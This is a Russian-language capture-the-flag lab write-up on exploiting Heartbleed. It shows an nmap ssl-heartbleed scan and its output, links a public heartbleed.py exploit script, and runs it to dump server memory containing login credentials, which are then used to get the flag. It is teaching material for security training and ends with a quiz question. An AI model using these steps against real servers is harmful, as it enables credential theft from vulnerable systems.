 # Лабораторная работа #3 HeartBleed

Заходим на сайт [http://heartbleed.myctf.ru](http://heartbleed.myctf.ru/) видим что нас перекидывает на https.
![image11](image11.png)

Проверяем веб-сервер на heartbleed:

```shellsession
# nmap -p 443 --script ssl-heartbleed <target>
```

В ответ получаем

```shellsession
PORT STATE SERVICE
443/tcp open https
| ssl-heartbleed:
|   VULNERABLE:
```

Это говорит об уязвимости сервера.
Находим любой скрипт для эксплуатации (вытягивание данных), например:
[https://gist.githubusercontent.com/eelsivart/10174134/raw/5c4306a11fadeba9d9f9385cdda689754ca4d362/heartbleed.py](https://gist.githubusercontent.com/eelsivart/10174134/raw/5c4306a11fadeba9d9f9385cdda689754ca4d362/heartbleed.py)

Запускаем

```shellsession
# ./heartbleed.py -n 100 192.168.241.137
```

![image12](image12.png)

Среди кучи мусора видим запрос с валидными кредами на вход, вводим эти данные, получаем флаг.
![image13](image13.png)

Какой флаг вы получили?

_____________________